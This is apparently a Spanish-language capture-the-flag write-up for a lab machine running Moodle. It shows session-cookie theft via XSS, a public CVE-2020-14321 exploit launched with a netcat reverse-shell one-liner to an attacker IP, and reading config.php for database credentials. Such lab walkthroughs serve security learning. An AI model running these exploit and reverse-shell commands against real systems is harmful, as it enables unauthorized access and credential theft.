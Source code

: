 1. Le damos a Update Profile.

Esperamos un poco y vemos que una peticion a sido lanzada y vemos una cookie de session 


![Schooled-moodleet-xss](/assets/images/Schooled-moodlenet-xss.png) 
Cambiamos la cookie desde firefox y recargamos la pagina. Ya vemos que nos hemos convertido en Manuel Philips.
Buscando por internet con busquedas de typo `moodle professor role rce github`, vemos que existe un CVE 2020-14321.

Encontramos un exploit y lo utilizamos para crear una reverse shell.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con moodle siendo professor {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Cargamos y lanzamos el exploit

    ```bash
    git clone https://github.com/lanzt/CVE-2020-14321
    cd CVE-2020-14321
    python3 CVE-2020-14321_RCE.py --cookie v6tp73g3lnflt81rvtn29jivj6 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f" http://moodle.schooled.htb/moodle
    ```

Y ganamos accesso al systema como el usuario **www**. No podemos lanzar una pseudo consola con tratamiento de la TTY pero seguimos investigando.

### User pivoting {-}

```bash
cd ..
ls
pwd
cd /usr/local/www/apache24/data/moodle
ls -l
cat config.php
```

Vemos un `config.php` con credenciales para mysql. 

```bash
which mysql
which mysqlshow
export $PATH
```
